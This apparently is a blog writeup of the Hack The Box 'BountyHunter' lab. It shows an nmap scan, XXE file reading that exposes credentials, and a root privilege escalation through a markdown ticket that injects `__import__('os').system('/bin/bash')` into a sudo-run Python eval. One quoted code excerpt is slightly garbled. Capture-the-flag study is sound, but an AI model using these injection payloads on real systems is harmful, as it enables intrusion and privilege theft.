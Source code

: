 ```yaml
---
layout: post
title: Hack The Box BountyHunter - Writeup
---
```


BountyHunter is an easy difficulty Hack The Box machine, exploited using XXE injection (to LFI), and using a markdown file to get root privileges.

## Nmap Scan

```bash
nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn <IP> -oG allPorts
```

![](/assets/writeups/htb-bountyhunter/nmap_port_scan.png)

## Enumeration

### Port 80

Let's take a look to the page. We have a form to create a new CVE.
We can intercept the request with burpsuite, and we'll intercept the data parameter in base64. Let's decode it.

![](/assets/writeups/htb-bountyhunter/data_decoded.png)

mmm sounds good! 😎

## XXE to LFI

Using wfuzz we found a php file called `db.php`.
So, let's send this request to the repeater in burpsuite, and using this payload we'll get the content of this file in base64.
Remember to encode the XML to base64.

![](/assets/writeups/htb-bountyhunter/db.php_xxe_lfi.png)

At this point we should get a base64 string, let's decode it.

![](/assets/writeups/htb-bountyhunter/db.php_base64_decode.png)

Cool! :)

We found some credentials. SSH? Yep, but user test won't work.
Taking a look to the `/etc/passwd` using the XXE vulnerability, there is a development user. Let's try this user...

![](/assets/writeups/htb-bountyhunter/ssh_development_user.png)

Amaaaazing...! We found the user flag! 😎

## Privilege escalation - root

First, we check what sudo capabilities our user development got using `sudo -l`.

We find the following.

```bash
(root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

WTF is this? Let's take a look...

`cat /opt/skytrain_inc/ticketValidator.py`

```python
def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

The code asks for a file name, then it makes sure that the filename is ended with .md extension.
If true, then the code opens the file and search for the next conditions.

```python
for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1: if line number 1 Exist and not startwith "## Ticket to " , Quit else Continue
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

    if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
```

Okaay! Let's create a `test.md` like this:

```markdown
# Skytrain Inc
## Ticket to
__Ticket Code:__
**102+ 10 == 112 and __import__('os').system('/bin/bash') == False
```

Run it, and you will get the root shell. Cat to the flag, and we are done!

![](/assets/writeups/htb-bountyhunter/pwned.png)
